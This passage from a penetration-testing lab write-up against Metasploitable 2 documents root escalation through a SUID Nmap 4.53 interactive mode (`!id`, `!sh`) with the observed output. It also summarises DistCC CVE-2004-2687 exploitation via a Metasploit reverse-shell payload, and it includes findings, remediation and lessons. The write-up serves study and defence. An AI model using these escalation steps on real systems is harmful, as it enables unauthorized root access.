Verify whether the SUID-enabled Nmap executable allowed commands to run with effective root privileges.

### Interactive Mode

From the remote `daemon` shell:

```bash
/usr/bin/nmap --interactive
```

Observed:

```text
Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap>
```

### Privilege Verification

The interactive command-execution feature was invoked:

```text
!id
```

Observed output:

```text
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
system() execution of command failed
```

Despite the subsequent `system()` warning, the identity information demonstrated that the command executed with an effective UID of zero.

### UID vs. EUID

| Identifier | Value | Interpretation |
|---|---|---|
| UID | `1 (daemon)` | Real user identity |
| GID | `1 (daemon)` | Real group identity |
| EUID | `0 (root)` | Effective user identity |
| Groups | `daemon` | Supplementary group membership |

The real identity remained `daemon`, while the effective identity became `root`.

**Evidence — Privilege Escalation**



**Result: Local Privilege Escalation confirmed.**

---

## 12. Privileged Shell Verification

### Objective

Determine whether the interactive command-execution capability could provide a shell operating with effective root privileges.

From the Nmap interactive prompt:

```text
!sh
```

A shell was opened:

```text
sh-3.2#
```

The identity was verified:

```bash
id
whoami
```

Observed output:

```text
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
root
```

### Interpretation

The real UID remained `daemon`, but the shell operated with effective root privileges.

The `whoami` command returned `root`, consistent with the EUID reported by `id`.

This was not merely a cosmetic change to the shell prompt.

It demonstrated that a process launched from the unprivileged foothold could operate with administrative privileges.

**Evidence — Root Shell Verification**



**Result: Shell with EUID 0 successfully obtained.**

---

## 13. Impact Validation

### Objective

Confirm the practical effect of obtaining elevated privileges without revealing sensitive file contents.

### Protected Resource Identification

The root-owned file `/root/.Xauthority` was inspected through its filesystem metadata.

Observed permissions:

```text
-rw------- 1 root root ... /root/.Xauthority
```

The file was readable and writable by its owner, `root`, but not ordinarily accessible to other users.

### Privileged Read-Permission Test

From the privileged shell:

```bash
test -r /root/.Xauthority && echo "ROOT ACCESS CONFIRMED"
```

The test confirmed that the shell operating with effective root privileges could access the protected resource.

No file contents were displayed.

### Evidence Interpretation

This validation supplemented the stronger identity-based proof:

```text
uid=1(daemon) gid=1(daemon) euid=0(root)
```

A separate test conducted after returning to the `daemon` shell was consistent with denied access, although terminal echo corruption prevented using its output as a clean standalone comparison.

The primary confirmed evidence therefore consists of the EUID 0 identity verification and the successful privileged access check.

**Evidence — Protected Resource Access**



**Result: Elevated filesystem access validated.**

---

## 14. Filesystem Write Validation and Cleanup

Before local privilege escalation, the initial `daemon` shell was also used to verify controlled filesystem write access.

A temporary proof file was created in `/tmp`:

```bash
printf 'distccd lab - daemon access\n' > /tmp/distccd_proof.txt
```

The file was inspected:

```bash
ls -l /tmp/distccd_proof.txt
cat /tmp/distccd_proof.txt
```

Observed:

```text
-rw-r--r-- 1 daemon daemon 28 ... /tmp/distccd_proof.txt
```

Content:

```text
distccd lab - daemon access
```

This confirmed that the compromised service account could create files within the writable temporary directory.

### Cleanup

The test artifact was removed:

```bash
rm /tmp/distccd_proof.txt
```

Cleanup was verified:

```bash
test ! -e /tmp/distccd_proof.txt && echo "Cleanup confirmed"
```

Observed:

```text
Cleanup confirmed
```

No persistence mechanism was installed, and no additional privileged account was created as part of the demonstrated attack chain.

---

## 15. Confirmed Security Findings

### Finding 01 — DistCC Remote Command Execution

| Property | Detail |
|---|---|
| Category | Remote Code Execution |
| Reference | CVE-2004-2687 |
| Affected Service | DistCC Daemon |
| Port | TCP 3632 |
| Initial Privileges | `daemon` |
| Assessment | Exploitable in the laboratory |
| Severity | Critical in the demonstrated attack chain |

**Description**

The remotely accessible DistCC daemon permitted execution of operating system commands through the compilation service protocol.

**Evidence**

A Metasploit exploit produced a reverse command shell and permitted command execution as `daemon`.

**Impact**

An attacker with network access to the affected service could execute commands with the daemon's privileges and establish an initial foothold on the host.

**Recommended Remediation**

- Remove or update vulnerable DistCC installations.
- Restrict DistCC access to explicitly authorized compilation hosts.
- Do not expose compilation daemons to untrusted networks.
- Use network access controls and the principle of least privilege.

### Finding 02 — Local Privilege Escalation via SUID Nmap

| Property | Detail |
|---|---|
| Category | Local Privilege Escalation |
| Affected Binary | `/usr/bin/nmap` |
| Version | Nmap 4.53 |
| Misconfiguration | SUID enabled on root-owned executable |
| Privilege Achieved | EUID 0 (`root`) |
| Assessment | Exploitable in the laboratory |
| Severity | Critical in the demonstrated attack chain |

**Description**

A root-owned Nmap executable was configured with SUID enabled.

The installed legacy version supported interactive execution of external operating system commands.

This combination allowed a low-privileged local user to execute commands with effective root privileges.

**Evidence**

```text
uid=1(daemon) gid=1(daemon) euid=0(root)
```

**Impact**

An attacker who obtained a local foothold could bypass the intended privilege boundary and execute commands as effective root.

**Recommended Remediation**

- Remove unnecessary SUID permissions from Nmap.
- Replace obsolete software with supported versions.
- Review SUID/SGID binaries for unnecessary privileged functionality.
- Apply least-privilege configurations to administrative utilities.

An example configuration correction for this specific binary is:

```bash
sudo chmod u-s /usr/bin/nmap
```

This command is shown as a remediation example. It was not performed during the exploitation assessment.

---

## 16. Root Cause and Attack Chaining

The assessment identified two separate security weaknesses:

**1. Exposed vulnerable service**

DistCC permitted remote command execution under the `daemon` account.

**2. Unsafe privileged executable configuration**

Nmap 4.53 was owned by root, had SUID enabled, and exposed functionality to execute external commands.

Neither weakness was dependent on the other at the software level.

However, when combined, they enabled a complete attack chain:

```text
Remote DistCC Exploitation
          |
          v
Low-Privilege Foothold
          |
          v
Local SUID Enumeration
          |
          v
Privileged Command Execution
          |
          v
Effective Root Access
```

This demonstrates why an initial compromise involving a low-privileged service can still lead to full system compromise when local privilege boundaries are insecure.

---

## 17. Lessons Learned

### Service Enumeration

A default port scan does not inspect every TCP port.

Using `-p-` allowed a full TCP enumeration and confirmed that port 3632 was exposed.

### Exploit and Payload Compatibility

The initial Bash reverse-shell payload failed.

Changing the payload to `cmd/unix/reverse_perl` successfully established the connection.

An unsuccessful payload does not necessarily imply that an exploit is ineffective.

### Initial Access vs. Privilege Escalation

The DistCC vulnerability provided initial access as `daemon`.

Root privileges were obtained through a separate local configuration weakness.

These were distinct stages of the attack.

### Linux Permission Model

Ordinary execute permissions determine whether a user may launch an executable.

SUID can affect the effective privileges with which that executable operates.

These concepts are not interchangeable.

### SUID, SGID, and Sticky Bit

| Permission | Purpose |
|---|---|
| SUID | Execute a program with its owner's effective user identity |
| SGID | Execute with the file group's effective identity; influence group inheritance on directories |
| Sticky Bit | Restrict deletion and renaming inside shared writable directories |

### UID and EUID

A process can retain the real identity of one user while executing with the effective privileges of another.

In this incident:

```text
UID  = 1 (daemon)
EUID = 0 (root)
```

### Evidence-Based Validation

Successful exploitation should be demonstrated through observable results rather than inferred from a tool's success message.

The assessment used identity verification, filesystem permission inspection, and controlled access tests.

---

## 18. Evidence Index

The following screenshots document the assessment in chronological order.

| # | Evidence | Screenshot |
|---|---|---|
| 01 | Nmap DistCC discovery | [View](screenshots/01-nmap-discovery.png) |
| 02 | Vulnerability research | [View](screenshots/02-exploit-research.png) |
| 03 | Metasploit configuration | [View](screenshots/03-metasploit-configuration.png) |
| 04 | Initial shell as daemon | [View](screenshots/04-initial-access-daemon.png) |
| 05 | PTY shell upgrade | [View](screenshots/05-shell-upgrade.png) |
| 06 | SUID enumeration | [View](screenshots/06-suid-enumeration.png) |
| 07 | Nmap SUID permissions | [View](screenshots/07-nmap-suid-permissions.png) |
| 08 | Effective root privileges | [View](screenshots/08-privilege-escalation.png) |
| 09 | Privileged shell verification | [View](screenshots/09-root-shell-verification.png) |
| 10 | Protected resource validation | [View](screenshots/10-access-validation.png) |

All screenshots were captured from the authorized Metasploitable 2 laboratory during reproduction of the documented exploitation chain.

---

## 19. Conclusion

This penetration-testing exercise successfully demonstrated a complete compromise path against an intentionally vulnerable Linux machine.

The assessment began with network reconnaissance and the identification of an exposed DistCC daemon on TCP port 3632.

Successful exploitation of CVE-2004-2687 established remote command execution as the low-privileged `daemon` account.

Post-exploitation enumeration identified Nmap 4.53 configured as a SUID-root executable. Its legacy interactive mode allowed execution of arbitrary commands with an effective UID of zero.

The resulting privileged shell was verified using `id`, `whoami`, and a controlled read-permission test against a root-owned resource.

**Final Result: Initial Remote Code Execution → Low-Privilege Access → Local Privilege Escalation → Effective Root Privileges**

The assessment demonstrates the importance of understanding Linux permissions, validating exploitation results, identifying privileged misconfigurations, and evaluating the combined impact of independently exploitable weaknesses.

---

**Environment:** Authorized VirtualBox laboratory  
**Assessment Type:** Offensive Security / Linux Penetration Testing  
**Incident:** 17  
**Status:** Completed  
**Purpose:** Practical cybersecurity research, technical skill development, and portfolio documentation
